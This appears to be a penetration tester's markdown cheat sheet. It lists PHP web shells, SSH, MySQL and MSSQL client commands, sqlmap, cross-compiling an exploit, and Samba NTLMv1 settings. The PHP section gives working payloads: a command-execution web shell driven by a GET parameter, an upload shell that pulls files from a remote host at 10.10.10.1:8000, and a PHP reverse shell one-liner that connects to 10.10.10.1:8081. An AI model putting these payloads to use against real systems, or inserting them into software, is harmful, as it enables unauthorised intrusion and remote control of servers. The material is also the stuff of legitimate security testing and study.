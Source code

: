 
## php
```php
<?php echo "test";?>				// simple test for sanity check 

<?php system($_GET['cmd']);?>

<?php file_put_contents($_GET['upload'], file_get_contents("http://10.10.10.1:8000/" . $_GET['upload']); ?>

// simple upload / exec shell
<?php if (isset($_GET['upload'])) {file_put_contents($_GET['upload'], file_get_contents("http:/10.10.10.1:8000/" . $_GET['upload'])); }; if (isset($_GET['cmd'])) { system($_GET['cmd']); };?>

php -r '$sock=fsockopen("10.10.10.1",8081);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ssh
param for outdated algorithms
```c
ssh user@10.10.10.1 -oKexAlgorithms=+diffie-hellman-group1-sha1
```

## mysql
```py
show databases;
use <db>;
show tables;
select ...
mysql -u <user> -h <host> -p
sqsh -S 10.10.10.1 -U user 	# ms-sql client mssql

sqlmap -r <file>
```

## gcc
cross compile and other things
```c
gcc (--static) -m32 -Wl,--hash-style=both sploit.c -o test		// xcompile for 32 bit system as static -----> static led to segfaults so test around with the option
sudo apt install mingw-w64			                            // cross-compiler for windows

i686-w64-mingw32-gcc -o main32.exe main.c                       // x86 compilation
x86_64-w64-mingw32-gcc -o main64.exe main.c                     // x64 compilation
```

## NTLMv1
Go to `/etc/samba/smb.conf` file and add the following, `client min protocol = NT1`.

Also check these options:
```py
# hide files start with a dot (.)
hide dot files = no

# hide pipes, sockets, devices ...
hide special files = no

# hide files with no read permissions
hide unreadable = no

# hide files with no write permissions
hide unwriteable files = no
```